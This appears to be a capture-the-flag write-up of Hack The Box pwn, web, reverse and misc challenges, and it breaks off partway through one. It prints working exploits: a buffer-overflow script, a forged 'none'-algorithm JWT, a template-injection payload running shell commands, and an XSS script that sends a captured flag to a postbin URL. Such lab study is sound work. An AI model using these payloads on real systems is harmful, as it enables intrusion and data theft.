Pwn
Questionnaire
Is this a '32-bit' or '64-bit' ELF? (e.g. 1337-bit)
$ file test
test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5a83587fbda6ad7b1aeee2d59f027a882bf2a429, for GNU/Linux 3.2.0, not stripped
→ 64bit
What's the linking of the binary? (e.g. static, dynamic)
→ dynamic
Is the binary 'stripped' or 'not stripped'?
→ not stripped
Which protections are enabled (Canary, NX, PIE, Fortify)?
Install gdb debugger and https://github.com/hugsy/gef
sudo apt install gdb
$ bash -c "$(curl -fsSL https://gef.blah.cat/sh)"
gdb test
checksec
Canary : ✘
NX : ✓
PIE : ✘
Fortify : ✘
RelRO : Partial→ NX
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉ ◉
◉ Great job so far! Now it's time to see some C code and a binary file. ◉
◉ ◉
◉ In the pwn_questionnaire.zip there are two files: ◉
◉ ◉
◉ 1. test.c ◉
◉ 2. test ◉
◉ ◉
◉ The 'test.c' is the source code and 'test' is the output binary. ◉
◉ ◉
◉ Let's start by analyzing the code. ◉
◉ First of all, let's focus on the '#include <stdio.h>' line. ◉
◉ It includes the 'stdio.h' header file to use some of the standard functions like 'printf()'. ◉
◉ The same principle applies for the '#include <stdlib.h>' line, for other functions like 'system()'. ◉
◉ ◉
◉ Now, let's take a closer look at: ◉
◉ ◉
◉ void main(){ ◉
◉ vuln(); ◉
◉ } ◉
◉ ◉
◉ By default, a binary file starts executing from the 'main()' function. ◉
◉ ◉
◉ In this case, 'main()' only calls another function, 'vuln()'. ◉
◉ The function 'vuln()' has 3 lines. ◉
◉ ◉
◉ void vuln(){ ◉
◉ char buffer[0x20] = {0}; ◉
◉ fprintf(stdout, "\nEnter payload here: "); ◉
◉ fgets(buffer, 0x100, stdin); ◉
◉ } ◉
◉ ◉
◉ The first line declares a 0x20-byte buffer of characters and fills it with zeros. ◉
◉ The second line calls 'fprintf()' to print a message to stdout. ◉
◉ Finally, the third line calls 'fgets()' to read 0x100 bytes from stdin and store them to the ◉
◉ aformentioned buffer. ◉
◉ ◉
◉ Then, there is a custom 'gg()' function which calls the standard 'system()' function to print the ◉
◉ flag. This function is never called by default. ◉
◉ ◉
◉ void gg(){ ◉
◉ system("cat flag.txt"); ◉
◉ } ◉
◉ ◉
◉ Run the 'man <function_name>' command to see the manual page of a standard function (e.g. man fgets).◉
◉ ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉What is the name of the custom function that gets called inside main()? (e.g. vulnerable_function())
→ vuln
What is the size of the 'buffer' (in hex or decimal)?
→ 0x20
Which custom function is never called? (e.g. vuln())
→ gg
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉ ◉
◉ Excellent! Now it's time to talk about Buffer Overflows. ◉
◉ ◉
◉ Buffer Overflow means there is a buffer of characters, integers or any other type of variables, ◉
◉ and someone inserts into this buffer more bytes than it can store. ◉
◉ ◉
◉ If the user inserts more bytes than the buffer's size, they will be stored somewhere in the memory ◉
◉ after the address of the buffer, overwriting important addresses for the flow of the program. ◉
◉ This, in most cases, will make the program crash. ◉
◉ ◉
◉ When a function is called, the program knows where to return because of the 'return address'. If the ◉
◉ player overwrites this address, they can redirect the flow of the program wherever they want. ◉
◉ To print a function's address, run 'p <function_name>' inside 'gdb'. (e.g. p main) ◉
◉ ◉
◉ gef➤ p gg ◉
◉ $1 = {<text variable, no debug info>} 0x401176 <gg> ◉
◉ ◉
◉ To perform a Buffer Overflow in the simplest way, we take these things into consideration. ◉
◉ ◉
◉ 1. Canary is disabled so it won't quit after the canary address is overwritten. ◉
◉ 2. PIE is disabled so the addresses of the binary functions are not randomized and the user knows ◉
◉ where to return after overwritting the return address. ◉
◉ 3. There is a buffer with N size. ◉
◉ 4. There is a function that reads to this buffer more than N bytes. ◉
◉ ◉
◉ Run printf 'A%.0s' {1..30} | ./test to enter 30*"A" into the program. ◉
◉ ◉
◉ Run the program manually with "./test" and insert 30*A, then 39, then 40 and see what happens. ◉
◉ ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉Gets printed twice?
What is the name of the standard function that could trigger a Buffer Overflow? (e.g. fprintf())
→ fgets
After how many bytes a Segmentation Fault occurs (in hex or decimal)?
┌──(student㉿kali4students)-[~/Desktop]
└─$ printf 'A%.0s' {1..30} | ./test
Enter payload here:
┌──(student㉿kali4students)-[~/Desktop]
└─$ printf 'A%.0s' {1..39} | ./test
Enter payload here:
┌──(student㉿kali4students)-[~/Desktop]
└─$ printf 'A%.0s' {1..40} | ./test
Enter payload here:
Enter payload here:→ 40
What is the address of 'gg()' in hex? (e.g. 0x401337)
gef➤ p gg
$3 = {<text variable, no debug info>} 0x401176 <gg>HTB{th30ry_bef0r3_4cti0n}
Getting started
./gs
Stack frame layout
| . | <- Higher addresses
| . |
|_____________|
| | <- 64 bytes
| Return addr |
|_____________|
| | <- 56 bytes
| RBP |
|_____________|
| | <- 48 bytes
| target |
|_____________|
| | <- 40 bytes
| alignment |
|_____________|
| | <- 32 bytes
| Buffer[31] |
|_____________|
| . |
| . |
|_____________|
| |
| Buffer[0] |
|_____________| <- Lower addresses
[Addr] | [Value]
-------------------+-------------------
0x00007ffddf6f35d0 | 0x0000000000000000 <- Start of buffer
0x00007ffddf6f35d8 | 0x0000000000000000
0x00007ffddf6f35e0 | 0x0000000000000000
0x00007ffddf6f35e8 | 0x0000000000000000
0x00007ffddf6f35f0 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffddf6f35f8 | 0x00000000deadbeef <- Target to change
0x00007ffddf6f3600 | 0x000055f745895800 <- Saved rbp
0x00007ffddf6f3608 | 0x00007fcab7c21c87 <- Saved return address
0x00007ffddf6f3610 | 0x0000000000000001
0x00007ffddf6f3618 | 0x00007ffddf6f36e8
After we insert 4 "A"s, (the hex representation of A is 0x41), the stack layout like this:
[Addr] | [Value]
-------------------+-------------------
0x00007ffddf6f35d0 | 0x0000000041414141 <- Start of buffer
0x00007ffddf6f35d8 | 0x0000000000000000
0x00007ffddf6f35e0 | 0x0000000000000000
0x00007ffddf6f35e8 | 0x0000000000000000
0x00007ffddf6f35f0 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffddf6f35f8 | 0x00000000deadbeef <- Target to change
0x00007ffddf6f3600 | 0x000055f745895800 <- Saved rbp
0x00007ffddf6f3608 | 0x00007fcab7c21c87 <- Saved return address
0x00007ffddf6f3610 | 0x0000000000000001
0x00007ffddf6f3618 | 0x00007ffddf6f36e8
After we insert 4 "B"s, (the hex representation of B is 0x42), the stack layout looks like this:
[Addr] | [Value]
-------------------+-------------------
0x00007ffddf6f35d0 | 0x4242424241414141 <- Start of buffer
0x00007ffddf6f35d8 | 0x0000000000000000
0x00007ffddf6f35e0 | 0x0000000000000000
0x00007ffddf6f35e8 | 0x0000000000000000
0x00007ffddf6f35f0 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffddf6f35f8 | 0x00000000deadbeef <- Target to change
0x00007ffddf6f3600 | 0x000055f745895800 <- Saved rbp
0x00007ffddf6f3608 | 0x00007fcab7c21c87 <- Saved return address
0x00007ffddf6f3610 | 0x0000000000000001
0x00007ffddf6f3618 | 0x00007ffddf6f36e8
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉ ◉
◉ Fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value. ◉
◉ ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[Addr] | [Value]
-------------------+-------------------
0x00007ffddf6f35d0 | 0x4141414141414141 <- Start of buffer
0x00007ffddf6f35d8 | 0x4141414141414141
0x00007ffddf6f35e0 | 0x4141414141414141
0x00007ffddf6f35e8 | 0x4141414141414141
0x00007ffddf6f35f0 | 0x4141414141414141 <- Dummy value for alignment
0x00007ffddf6f35f8 | 0x0041414141414141 <- Target to change
0x00007ffddf6f3600 | 0x000055f745895800 <- Saved rbp
0x00007ffddf6f3608 | 0x00007fcab7c21c87 <- Saved return address
0x00007ffddf6f3610 | 0x0000000000000001
0x00007ffddf6f3618 | 0x00007ffddf6f36e8
HTB{f4k3_fl4g_4_t35t1ng}Updated this python script:
#!/usr/bin/python3.8
'''
You need to install pwntools to run the script.
To run the script: python3 ./wrapper.py
'''
# Library
from pwn import *
# Open connection
IP = '165.232.100.143' # Change this
PORT = 30829 # Change this
r = remote(IP, PORT)
# Craft payload
payload = b'A' * 48 # Change the number of "A"s
# Send payload
r.sendline(payload)
# Read flag
success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')→ 48 A’s
┌──(student㉿kali4students)-[~/Desktop/challenge]
└─$ python3 wrapper.py
[+] Opening connection to 165.232.100.143 on port 30829: Done
[+] Flag --> HTB{b0f_s33m5_3z_r1ght?}
[*] Closed connection to 165.232.100.143 port 30829Flag → HTB{b0f_s33m5_3z_r1ght?}
Labyrinth (Need help to find the buffer overflow?)
Escape_plan method never gets executed. So probably a buffer overflow where you need to inject the address of the Escape_plan method
undefined8 main(void)
{
int iVar1;
undefined8 local_38;
undefined8 local_30;
undefined8 local_28;
undefined8 local_20;
char *local_18;
ulong local_10;
setup();
banner();
local_38 = 0;
local_30 = 0;
local_28 = 0;
local_20 = 0;
fwrite("\nSelect door: \n\n",1,0x10,stdout);
for (local_10 = 1; local_10 < 0x65; local_10 = local_10 + 1) {
if (local_10 < 10) {
fprintf(stdout,"Door: 00%d ",local_10);
}
else if (local_10 < 100) {
fprintf(stdout,"Door: 0%d ",local_10);
}
else {
fprintf(stdout,"Door: %d ",local_10);
}
if ((local_10 % 10 == 0) && (local_10 != 0)) {
putchar(10);
}
}
fwrite(&DAT_0040248f,1,4,stdout);
local_18 = (char *)malloc(0x10);
fgets(local_18,5,stdin);
iVar1 = strncmp(local_18,"69",2);
if (iVar1 != 0) {
iVar1 = strncmp(local_18,"069",3);
if (iVar1 != 0) goto LAB_004015da;
}
fwrite("\nYou are heading to open the door but you suddenly see something on the wall:\n\n\"Fly like a bird and be free!\"\n\nWould you like to change the door you chose?\n\n>> "
,1,0xa0,stdout);
fgets((char *)&local_38,0x44,stdin);
LAB_004015da:
fprintf(stdout,"\n%s[-] YOU FAILED TO ESCAPE!\n\n",&DAT_00402541);
return 0;
}
void escape_plan(void)
{
ssize_t sVar1;
char local_d;
int local_c;
putchar(10);
fwrite(&DAT_00402018,1,0x1f0,stdout);
fprintf(stdout,
"\n%sCongratulations on escaping! Here is a sacred spell to help you continue your journey: %s\n"
,&DAT_0040220e,&DAT_00402209);
local_c = open("./flag.txt",0);
if (local_c < 0) {
perror("\nError opening flag.txt, please contact an Administrator.\n\n");
// WARNING: Subroutine does not return
exit(1);
}
while( true ) {
sVar1 = read(local_c,&local_d,1);
if (sVar1 < 1) break;
fputc((int)local_d,stdout);
}
close(local_c);
return;
}Web
Drobots
Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?
Ping command was vulnerable to command injection:

Flag → HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
Trapped Source
Intergalactic Ministry of Spies tested Pandora's movement and intelligence abilities. She found herself locked in a room with no apparent means of escape. Her task was to unlock the door and make her way out. Can you help her in opening the door?
Found this CONFIG object in the script:
if (CONFIG.correctPin == pin) {
fetch('/flag', {
method: 'POST',
headers: {
'Content-Type': 'application/json'
},
body: JSON.stringify({
'pin': CONFIG.correctPin
})
})
.then((data) => data.json())
.then((res) => {
$('.lockStatus').css('font-size', '8px')
$('.lockStatus').text(res.message)
})
return
}
Flag → HTB{V13w_50urc3_c4n_b3_u53ful!!!}
Orbital
In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?
You can use SQLI to login as admin.

After logging in you can use directory traversal to export the flag

Flag → HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
Passman
Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?
The updatePassword requests takes username from argument instead of session. Because of this you can change the password of the admin user.
UpdatePassword:
type: ResponseType,
args: {
username: { type: new GraphQLNonNull(GraphQLString) },
password: { type: new GraphQLNonNull(GraphQLString) }
},
resolve: async (root, args, request) => {
return new Promise((resolve, reject) => {
if (!request.user) return reject(new GraphQLError('Authentication required!'));
db.updatePassword(args.username, args.password)
.then(() => resolve(response("Password updated successfully!")))
.catch(err => reject(new GraphQLError(err)));
});
}
}
Flag → HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
Didactic Octo Paddles
You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river. You must hack into the paddle shop's system to obtain information on the relic's location. Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.
There is a flaw in checking if the user is admin. If the user provides a jwt token with alg that is not “none” or “HS256” the site will verify the jwt token with an empty key.
By forging a malicious jwt token you can gain admin rights:
{"alg":"nOnE","typ":"JWT"}{"id":1,"iat":1679188479,"exp":1679192079}I changed the id to 1 (admin) and made the alg none but not all lowercase because the program only checks for all lowercase.

Now that we have admin privileges, we need to check what we can do with it.
This is the only endpoint i see, this shows all the users the site has.
This had a big flaw. it is vulnerable for template injection in jsrender.templates.
To exploit this we need to register a new user with a specific payload:
{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat \/flag.txt').toString()\")()}}
Going back to /admin shows the flag.
Flag → HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}
SpyBug
As Pandora made her way through the ancient tombs, she received a message from her contact in the Intergalactic Ministry of Spies. They had intercepted a communication from a rival treasure hunter who was working for the alien species. The message contained information about a digital portal that leads to a software used for intercepting audio from the Ministry's communication channels. Can you hack into the portal and take down the aliens counter-spying operation?
web_spybug.rar (challenge file)
This one was quite complex, the site had multiple vulnerabilities you need to chain to get the flag. I will go over all of them and then chain them together.
The goal
We need to get access to the panel as admin. This will show us the flag
I noticed that the server has an admin bot that goes to panel every minute.
router.get("/panel", authUser, async (req, res) => {
res.render("panel", {
username:
req.session.username === "admin"
? process.env.FLAG
: req.session.username,
agents: await getAgents(),
recordings: await getRecordings(),
});
});File uploaded vulnerability
This code checks if the file ends with .wav and has type audio/wave in the upload request. It also reads the file and checks if 52494646[a-z0-9]{8}57415645 is found. This is basically the magic byte of a wav file. The problem is that it doesn’t check if it's at the beginning. This can be exploited. The file is renamed and put in the ./uploads folder.
const storage = multer.diskStorage({
filename: (req, file, cb) => {
cb(null, uuidv4());
},
destination: (req, file, cb) => {
cb(null, "./uploads");
},
});
const multerUpload = multer({
storage: storage,
fileFilter: (req, file, cb) => {
if (
file.mimetype === "audio/wave" &&
path.extname(file.originalname) === ".wav"
) {
cb(null, true);
} else {
return cb(null, false);
}
},
});
router.post(
"/agents/upload/:identifier/:token",
authAgent,
multerUpload.single("recording"),
async (req, res) => {
if (!req.file) return res.sendStatus(400);
const filepath = path.join("./uploads/", req.file.filename);
const buffer = fs.readFileSync(filepath).toString("hex");
if (!buffer.match(/52494646[a-z0-9]{8}57415645/g)) {
fs.unlinkSync(filepath);
return res.sendStatus(400);
}
await createRecording(req.params.identifier, req.file.filename);
res.send(req.file.filename);
}
);XSS vulnerability
This is the panel.pug file. This file is loaded when going to the /panel endpoint. This is loaded with all the agent info and uploads info. They use !{var} to protect for template injection but not for XSS.
router.post(
"/agents/details/:identifier/:token",
authAgent,
async (req, res) => {
const { hostname, platform, arch } = req.body;
if (!hostname || !platform || !arch) return res.sendStatus(400);
await updateAgentDetails(req.params.identifier, hostname, platform, arch);
res.sendStatus(200);
}
);doctype html
head
title Spybug | Panel
include head.pug
body
div.container.login.mt-5.mb-5
div.row
div.col-md-10
h1
i.las.la-satellite-dish
| Spybug v1
div.col-md-2.float-right
a.btn.login-btn.mt-3(href="/panel/logout") Log-out
hr
h2 #{"Welcome back " + username}
hr
h3
i.las.la-laptop
| Agents
if agents.length > 0
table.w-100
thead
tr
th ID
th Hostname
th Platform
th Arch
tbody
each agent in agents
tr
td= agent.identifier
td !{agent.hostname}
td !{agent.platform}
td !{agent.arch}
else
h2 No agents
hr
h3
i.las.la-play-circle
| Recordings
if recordings.length > 0
table.w-100
thead
tr
th Agent ID
th Audio
tbody
each recording in recordings
tr
td= recording.agentId
td
audio(controls='')
source(src=recording.filepath)
else
h2 No recordingsContent security
The /panel endpoint has a header Content-Security. The important one is the script-src ‘self’. This only allows script tags with script src of its own domain. This is going to be used later.
Content-Security-Policy: script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';Full exploit explained
- First step we will register an agent.
- We craft a malicious file containing js that ends with the magic bytes of a wav file and name it file.wav. Put the link in the fetch request to where you want the flag to be send to. (postbin)
We comment out the magic byte so it doesn’t give errors.
Upload the file to/agents/upload/identifier/token.
Save the id you get back for the next part.// file.wav window.addEventListener("DOMContentLoaded", (event) => { let flag = document.querySelector("h2").textContent; fetch("{postBinLink}?flag="+flag); });/*RIFF/* WAVE*/ - Now we will send a XSS payload to
/agents/details/identifier/token.
Here we put in a script tag with as src the file that we have uploaded.
This bypasses the content security because the js comes from its own domain.{ "hostname": "RANDOM", "platform": "RANDOM", "arch": "<script src='/uploads/{fileId}'></script>" } - Now we wait. Because there is a bot on the server that goes to the panel every minute.
So check your postbin in a minute.createAdmin(); setInterval(visitPanel, 60000);
Full exploit script
I made a script that does all of this automatically.
import requests
import json
# Config
ip = "142.93.38.14"
port = 32286
postBinLink = "https://www.toptal.com/developers/postbin/1679434525677-7056008977815" # Put own postebin
baseUrl = f"http://{ip}:{port}"
def registerAgent():
print("[*] Registering agent")
jsonData = requests.get(baseUrl+"/agents/register").json()
identifier = jsonData["identifier"]
token = jsonData["token"]
return identifier, token
def uploadFile(id, token):
print("[*] Uploading file payload")
global postBinLink
filePayload = 'window.addEventListener("DOMContentLoaded", (event) => {\r\n let flag = document.querySelector("h2").textContent;\r\n fetch("'+postBinLink+'?flag="+flag);\r\n});/*RIFF/*\x16 WAVE*/'
payload = {}
files = [
('recording', ('file.wav', filePayload.encode(), 'audio/wave'))
]
response = requests.request("POST", f"{baseUrl}/agents/upload/{id}/{token}", data=payload, files=files)
return response.text
def xssPayload(id, token, fileId):
print("[*] Sending XSS payload")
payload = {
"hostname": "RANDOM",
"platform": "RANDOM",
"arch": f"<script src='/uploads/{fileId}'></script>"
}
response = requests.request("POST", f"{baseUrl}/agents/details/{id}/{token}", data=payload)
if response.text == "OK":
print("[*] Check postbin in a minute")
else:
print("[!] FAILED")
def main():
id, token = registerAgent()
fileId = uploadFile(id, token)
xssPayload(id, token, fileId)
main()Flag → HTB{p01yg10t5_4nd_35p10n4g3}
Reverse
Shattered tablet
tablet (challenge file)
Open in Ghidra, browse to main function
/* WARNING: Could not reconcile some variable overlaps */
undefined8 main(void)
{
undefined8 local_48;
undefined8 local_40;
undefined8 local_38;
undefined8 local_30;
undefined8 local_28;
undefined8 local_20;
undefined8 local_18;
undefined8 local_10;
local_48 = 0;
local_40 = 0;
local_38 = 0;
local_30 = 0;
local_28 = 0;
local_20 = 0;
local_18 = 0;
local_10 = 0;
printf("Hmmmm... I think the tablet says: ");
fgets((char *)&local_48,0x40,stdin);
if (((((((((local_30._7_1_ == 'p') && (local_48._1_1_ == 'T')) && (local_48._7_1_ == 'k')) &&
((local_28._4_1_ == 'd' && (local_40._3_1_ == '4')))) &&
((local_38._4_1_ == 'e' && ((local_40._2_1_ == '_' && ((char)local_48 == 'H')))))) &&
(local_28._2_1_ == 'r')) &&
((((local_28._3_1_ == '3' && (local_30._1_1_ == '_')) && (local_48._2_1_ == 'B')) &&
(((local_30._5_1_ == 'r' && (local_48._3_1_ == '{')) &&
((local_30._2_1_ == 'b' && ((local_48._5_1_ == 'r' && (local_40._5_1_ == '4')))))))))) &&
(((local_30._6_1_ == '3' &&
(((local_38._3_1_ == 'v' && (local_40._4_1_ == 'p')) && (local_28._1_1_ == '1')))) &&
(((local_30._3_1_ == '3' && (local_38._1_1_ == 'n')) &&
(((local_48._4_1_ == 'b' && (((char)local_28 == '4' && (local_40._1_1_ == 'n')))) &&
((char)local_38 == ',')))))))) &&
((((((((char)local_40 == '3' && (local_48._6_1_ == '0')) && (local_38._7_1_ == 't')) &&
((local_40._7_1_ == 't' && ((char)local_30 == '0')))) &&
((local_40._6_1_ == 'r' && ((local_28._5_1_ == '}' && (local_38._5_1_ == 'r')))))) &&
(local_38._6_1_ == '_')) && ((local_38._2_1_ == '3' && (local_30._4_1_ == '_')))))) {
puts("Yes! That\'s right!");
}
else {
puts("No... not that");
}
return 0;
}⇒ This reveals a check on a lot of characters, if u follower the order from the variable initialization at the top:

and rearrange the characters this way, you get the flag: {br0k3n_4p4rt,n3ver_t0_b3_r3p41r3d}
Misc
Persistence
Thousands of years ago, sending a GET request to /flag would grant immense power and wisdom. Now it's broken and usually returns random data, but keep trying, and you might get lucky... Legends say it works once every 1000 tries.
Simple python script that keeps sending requests until the flag is found:
import requests
url = 'http://159.65.62.241:30757/flag'
flag = ''
while not flag.startswith('HTB'):
response = requests.get(url)
flag = response.text.strip()
print(f'Response: {flag}')
Flag → HTB{y0u_h4v3_p0w3rfuL_sCr1pt1ng_ab1lit13S!}
Hijack
The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 1
- Creating new config -
Temperature units (F/C/K): K
Propulsion Components Target Temperature : 1273
Solar Array Target Temperature : 303
Infrared Spectrometers Target Temperature : 170
Auto Calibration (ON/OFF) : ON
Serialized config: ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxNzAnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLAogIHByb3B1bHNpb25fdGVtcDogJzEyNzMnLCBzb2xhcl9hcnJheV90ZW1wOiAnMzAzJywgdW5pdHM6IEt9Cg==
Uploading to ship...
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 2
